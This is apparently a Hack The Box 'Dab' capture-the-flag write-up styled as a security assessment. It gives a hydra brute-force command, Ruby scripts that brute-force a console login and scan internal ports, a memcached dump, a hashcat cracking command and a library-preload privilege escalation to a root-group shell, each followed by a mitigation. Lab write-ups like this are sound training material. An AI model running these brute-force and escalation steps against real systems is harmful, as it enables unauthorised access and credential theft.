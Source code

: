 ```yaml
---
title: Hack The Box DAB Writeup Security Assessment
description: Hack the box 'DAB' writeup
date: 2019-02-03
tags: [Hack the Box, DAB]
---
```


# Introduction to the target.

Here we present a writeup of the "Dab" server and the applications it hosts. As we walk through each issue identified, we'll recommend a suitable mitigation against exploitation. A quick review of open services gives us a few targets.

## FTP
The ftp service accepts anonymous logons appears to have the single purpose of serving the organisation logo.

<amp-img alt="Dab logo"
    src="/assets/images/dab.jpg"
    height="680"
    width="733"
    layout="responsive"
    >
</amp-img>

### Recommendation
Although no significant issue is currently found here, in order to reduce attack surface, this service should be considered for removal.

## Web 

The web application service initially confronts a viewer with a username/password prompt. By testing several passwords, it can be identified that there is no account lockout or rate limiting in place, leading to an obvious potential for brute forcing. The following hydra script has been designed for the site in question:

```

hydra -l admin -P /usr/share/wordlists/rockyou.txt <address> http-post-form "/login:password=^PASS^&username=^USER^:failed"
```

It takes just a few minutes to identify a valid logon, and it should be stressed that the identified credentials meet strict password complexity policies. That is, it contained upper case, lower case, and numeric characters. Accordingly, such policies are not the solution to this type of problem.

## Developers console

The second service to review is the developer's console, on port 8080. This service utilises a more complex authentication system. The below custom code was built from reviewing browser interactions with the site, and will similarly brute force a valid credentials.

```
#!/usr/bin/env ruby
#
require 'httpclient'
require 'httpclient/webagent-cookie'

URL = URI.parse "http://SERVICE:8080/"

def win(password)
  puts "Won with #{password}"
  exit
end

File.open '/usr/share/wordlists/rockyou.txt' do |f|
  f.each_line do |password|
    cookie = WebAgent::Cookie.new
    cookie.name = "password"
    cookie.value = password.chomp
    cookie.url = URL

    client = HTTPClient.new
    client.cookie_manager.add cookie
    response = client.get URL

    puts "Failed password '#{password.chomp}'"
    win(password) unless response.body.match(/Access denied/)
  end
end
```

### Recommendations
Rather than review credentials systems, the developer console could consider alternate authentication mechanisms. These could include requiring VPN access, or IP based whitelisting in addition to the existing solution.

## Utilising the developer console
The developer console can be utilised to connect to an arbitrary local port. The following script has been developed to enumerate all local services by abusing this functionality of the developer's console. This identifies access to several ports not accessible from the outside world.

```
#!/usr/bin/env ruby
#
require 'httpclient'
require 'httpclient/webagent-cookie'

URL = URI.parse "http://SERVER:8080/"

def win(port)
  puts "Won with #{port}"
end

cookie = WebAgent::Cookie.new
cookie.name = "password"
cookie.value = VALUE
cookie.url = URL

1.upto TOP do |port|

  client = HTTPClient.new
  client.cookie_manager.add cookie
  response = client.get URI.parse "http://SERVER:8080/socket?port=#{port}&cmd=test"

  puts "Failed port '#{port}'"
  win(port) unless response.body.match(/500 Internal/)
end

```

The capability is not seen as a vulnerability in the developer's console, but rather as an indication the console itself requires better access control.

## Extracting a password list

The developer's console identifies a memcached service running, and accepting raw string data from that console. The following URL can be utilised to dump available cache information:

http://SERVER:8080/socket?port=11211&cmd=stats+items

[Further information regarding the memcache protocol can be reviewed here.](https://wincent.com/wiki/Testing_memcached_with_telnet)

With this background, the below script can be utilised to dump cached passwords. It is required to manually attempt to logon to the console shortly before running this script.

```
#!/usr/bin/env ruby
#
require 'json'
list = File.read "userlist.json"

listj = JSON.parse(list)

listj.each_pair do |user, password|
  puts "#{user}:#{password}"
end
```

This should dump 495 username/hashed password combinations.

    hashcat64 --show dab.txt rockyou -m 0 --username

Allows for a relatively quick brute force attack on the dumped data, supplying 12 valid user credentials. Once of these is a valid SSH user.

## Privilege Escalation
Enough enumerating various paths will lead you to a SUID root binary named 'myexc'. Running it looks like this:

```
myexec
Enter password:
```

Attempting to copy the binary offsite to debug will inform you a library is required, which we can easily find:

```
$ find /usr -name libseclogin*
/usr/lib/libseclogin.so
/usr/src/libseclogin
genevieve@dab:~$ ls /usr/src/libseclogin/
seclogin.h
genevieve@dab:~$ cat /usr/src/libseclogin/seclogin.h
#include<stdio.h>
extern unsigned int seclogin();
```

ltrace happily tells us the password required to proceed.

```
 ltrace myexec
__libc_start_main(0x400836, 1, 0x7fff4a651bc8, 0x4008f0 <unfinished ...>
printf("Enter password: ")                      = 16
__isoc99_scanf(0x400985, 0x7fff4a651a90, 0x7f491a4c5780, 16Enter password: atest
) = 1
strcmp("s3cur3l0g1n", "atest")                  = 18
puts("Invalid password\n"Invalid password

)                      = 18
+++ exited (status 1) +++

```

Let's use that and see what the binary has in store for us. Note, saw above what seclogin() looks like and how exactly it responds.

```

genevieve@dab:~$ myexec
Enter password: s3cur3l0g1n
Password is correct

seclogin() called
TODO: Placeholder for now, function not implemented yet

```

The attacker really should be blocked at this point. Utilising an external library isn't a vulnerability on a SUID binary, since the usual LD\_PRELOAD tricks are ignored by the OS. In fact, the only place a preloaded library is accepted from is the locations defined under /etc/ld/so.conf.d. What do we see here however?

```
 cat /etc/ld.so.conf.d/test.conf
/tmp
```

At this point, we have a valid preload path, and a function we know how to call. Let's build and run a shell:

```
mine.c: In function ‘seclogin’:
mine.c:9:1: warning: control reaches end of non-void function [-Wreturn-type]
 }
 ^
genevieve@dab:~$ myexec
Enter password: s3cur3l0g1n
Password is correct

$ whoami
genevieve
$ id
uid=1000(genevieve) gid=0(root) groups=0(root),1000(genevieve)
```

And with root access, the attacker has full control of the machine. Our recommendation in response is to move development projects off the production servers.
